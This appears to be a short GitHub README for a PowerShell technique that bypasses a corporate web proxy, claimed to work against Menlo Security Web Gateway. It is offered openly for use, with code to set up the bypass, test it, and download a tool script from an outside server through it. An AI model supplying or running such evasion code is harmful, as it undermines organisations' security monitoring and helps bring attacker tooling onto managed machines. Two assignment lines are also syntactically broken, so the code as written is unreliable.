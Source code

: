# Proxy-Bypass
A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway. 

## Powershell Code for proxy bypass.
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

##Test proxy bypass is working.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

##Download scripts/tooling using bypass.
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
